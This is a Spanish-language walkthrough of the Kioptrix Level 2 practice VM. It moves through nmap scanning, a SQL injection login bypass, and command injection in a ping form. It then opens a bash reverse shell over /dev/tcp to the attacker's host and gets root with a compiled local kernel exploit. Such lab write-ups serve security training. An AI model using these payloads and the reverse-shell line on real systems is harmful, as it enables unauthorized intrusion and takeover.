

# Kioptrix Level 2

## Instalación

Por defecto la maquina tiene configurada la tarjeta de red en modo Bridged y no es recomendable por lo que debemos de configurarla en modo NAT que tiene que ser la misma  interfaz que nuestro Kali.

Para ello antes de abrir la maquina en nuestro VMware nos dirigimos al archivo de configuración.



lo abrimos con nuestro editor de texto y cambiamos el nombre de la red por NAT


```bash
#cambiamos
ethernet0.networkName = "Bridged"
#Por
ethernet0.networkName = "NAT"
```

Después abrimos la maquina desde VMware y cambiamos la interfaz de red por NAT 


Iniciamos y nos aparecerán una serie de ventanas en las cuales debemos seleccionar “Do Nothing” en todas hasta que termine de iniciarse la maquina.


Y deberíamos de tener la maquina lista para comenzar.

## Resolución de la Maquina

### Escaneo y Análisis de Vulnerabilidades

Iniciamos con un escaneo con el comando arp para obtener la ip de nuestra maquina.

```bash
sudo arp-scan -I eth0 --localnet
```


Una vez obtenida nuestra IP pasamos a realizar un escaneo con nmap para descubrir puertos abiertos. 

```bash
nmap -p- --open  -T5 -n -Pn -vvv 192.168.66.160 -oN Target
```

Output:

```bash
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-20 16:30 EDT
Initiating ARP Ping Scan at 16:30
Scanning 192.168.66.160 [1 port]
Completed ARP Ping Scan at 16:30, 0.04s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 16:30
Scanning 192.168.66.160 [65535 ports]
Discovered open port 111/tcp on 192.168.66.160
Discovered open port 3306/tcp on 192.168.66.160
Discovered open port 22/tcp on 192.168.66.160
Discovered open port 443/tcp on 192.168.66.160
Discovered open port 80/tcp on 192.168.66.160
Discovered open port 996/tcp on 192.168.66.160
Discovered open port 631/tcp on 192.168.66.160
Completed SYN Stealth Scan at 16:30, 4.05s elapsed (65535 total ports)
Nmap scan report for 192.168.66.160
Host is up, received arp-response (0.0025s latency).
Scanned at 2023-08-20 16:30:10 EDT for 4s
Not shown: 65528 closed tcp ports (reset)
PORT     STATE SERVICE  REASON
22/tcp   open  ssh      syn-ack ttl 64
80/tcp   open  http     syn-ack ttl 64
111/tcp  open  rpcbind  syn-ack ttl 64
443/tcp  open  https    syn-ack ttl 64
631/tcp  open  ipp      syn-ack ttl 64
996/tcp  open  xtreelic syn-ack ttl 64
3306/tcp open  mysql    syn-ack ttl 64
MAC Address: 00:0C:29:60:3D:BB (VMware)

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 4.24 seconds
           Raw packets sent: 65536 (2.884MB) | Rcvd: 65536 (2.621MB)
```

Tras un escaneo general pasamos a realizar otro especificando los puertos descubiertos para ver la versión que corren los servicios.

```bash
nmap -p22,80,111,443,631,996,3306 -sCV 192.168.66.160
```

Output:

```bash
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-20 16:31 EDT
Nmap scan report for 192.168.66.160
Host is up (0.00015s latency).

PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 3.9p1 (protocol 1.99)
|_sshv1: Server supports SSHv1
| ssh-hostkey: 
|   1024 8f:3e:8b:1e:58:63:fe:cf:27:a3:18:09:3b:52:cf:72 (RSA1)
|   1024 34:6b:45:3d:ba:ce:ca:b2:53:55:ef:1e:43:70:38:36 (DSA)
|_  1024 68:4d:8c:bb:b6:5a:bd:79:71:b8:71:47:ea:00:42:61 (RSA)
80/tcp   open  http     Apache httpd 2.0.52 ((CentOS))
|_http-server-header: Apache/2.0.52 (CentOS)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
111/tcp  open  rpcbind  2 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100024  1            993/udp   status
|_  100024  1            996/tcp   status
443/tcp  open  ssl/http Apache httpd 2.0.52 ((CentOS))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2009-10-08T00:10:47
|_Not valid after:  2010-10-08T00:10:47
|_ssl-date: 2023-08-20T17:22:36+00:00; -3h09m37s from scanner time.
|_http-server-header: Apache/2.0.52 (CentOS)
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_RC2_128_CBC_WITH_MD5
|     SSL2_RC4_64_WITH_MD5
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|     SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
|     SSL2_DES_64_CBC_WITH_MD5
|_    SSL2_RC4_128_WITH_MD5
631/tcp  open  ipp      CUPS 1.1
|_http-server-header: CUPS/1.1
|_http-title: 403 Forbidden
| http-methods: 
|_  Potentially risky methods: PUT
996/tcp  open  status   1 (RPC #100024)
3306/tcp open  mysql    MySQL (unauthorized)
MAC Address: 00:0C:29:60:3D:BB (VMware)

Host script results:
|_clock-skew: -3h09m37s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.28 seconds
```

### Explotación

Tras analizar el resultado vemos que tiene el puerto 80 abierto con el servicio http por lo que pasamos a ver la web.


Observamos un login con los campos Username y Password.

Probamos a realizar un comando basico de  SQLInjection en el campo Username

```bash
' or 1 = 1 -- -
```

Y tenemos éxito apareciendo después la siguiente ventana:


Observamos que tiene la función de realizar un ping a la ip que le indiquemos. Si escribimos la ip de la maquina obtenemos lo siguiente:


Probamos a concatenar comandos con un “;” y vemos que se pueden concatenar:

```bash
192.168.66.160 ; whoami
```

obteniendo:


Una vez aquí nos ponemos a la escucha en nuestro kali y ejecutamos el siguiente comando para obtener una reverse Shell

```bash
#kali
nc -nlvp 4444
#En la web
192.168.66.152 ; bash -i >& /dev/tcp/192.168.66.152/4444 0>&1
```

obteniendo la Shell:

```bash
┌──(kali㉿kali)-[~]
└─$ nc -nlvp 4444                     
listening on [any] 4444 ...
connect to [192.168.66.152] from (UNKNOWN) [192.168.66.160] 32779
bash: no job control in this shell
bash-3.00$ whoami
apache
```

### Escalada de privilegios

Transferimos [linpeas.sh](https://github.com/carlospolop/PEASS-ng/releases) de nuestro Kali a la maquina para ver por donde podemos escalar privilegios para ello iniciamos un servidor con Python en nuestro kali:

```bash
python3 -m http.server 80
```

y con wget desde la maquina descargamos Linpeas.

```bash
wget http://192.168.66.152/linpeas.sh
```

Una vez con Linpeas en la maquina objetivo lo ejecutamos y vemos lo siguiente:


La maquina es un CentOS 4.5 con versión de Linux 2.6.9.

Buscamos en Google si existe algún exploit de escalada de privilegios con estas características y encontramos el siguiente exploit:

[https://www.exploit-db.com/exploits/9542](https://www.exploit-db.com/exploits/9542)

Lo descargamos en nuestra maquina y lo transferimos igual que hemos hecho anteriormente.

Lo compilamos

```bash
gcc 9542.c -o exploit
```

Damos permisos de ejecución

```bash
chmod +x exploit
```

y lo ejecutamos obteniendo una Shell como root

```bash
bash-3.00$ ./exploit
sh: no job control in this shell
sh-3.00# whoami
root
```

y ya tendríamos la maquina terminada.

Un saludo y Feliz Hacking :)
